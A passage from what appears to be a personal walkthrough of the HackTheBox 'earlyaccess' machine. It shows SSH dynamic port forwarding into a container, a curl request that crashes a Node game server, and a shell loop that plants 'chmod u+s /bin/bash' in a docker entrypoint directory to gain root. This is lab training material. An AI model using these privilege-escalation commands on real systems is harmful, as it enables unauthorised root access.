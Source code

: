 only one:

![[Pasted image 20250425150334.png]]

then connect it via ssh, and we in `game-server`

![[Pasted image 20250425150421.png]]

use [[ss]] to try to see open ports in local.

```bash
ss -nltp
```

![[Pasted image 20250425150517.png]]

port 9999 has an application running.

we can use [[sshpass]] (also common ssh) to do a dynamic port forwarding

```bash
ssh drew@earlyaccess.htb -D 1080
```

and set a new [[SOCKS5]] [[Proxy]] with [[FoxyProxy]] listen on my machine on port `1080`

![[Pasted image 20250425151136.png]]

and of this way, we have access to the container

![[Pasted image 20250425151910.png]]

Checking the code of that game in `/usr/src/app/server.js`

![[Pasted image 20250425152710.png]]

the code says is going to stop the execution if there is a problem.

if we try to incite an error with curl:

```bash
curl http://127.0.0.1:9999/autoplay -d 'rounds=-1'
```

if can create a script `/docker-entrypoint.d/` then `entrypoint.sh` is going to execute it.

![[Pasted image 20250425153442.png]]

we find the mount of docker folder on `earlyaccess` machine filtering by `node-server.sh` 

![[Pasted image 20250425153703.png]]

and being drew we have writing skills.

with this one liner we can constantly try apply `suid` privilege to `/bin/bash`.

```bash
while true; do echo "chmod u+s /bin/bash" > /opt/docker-entrypoint.d/exec.sh; chmod +x /opt/docker-entrypoint.d/exec.sh; sleep 1; done
```
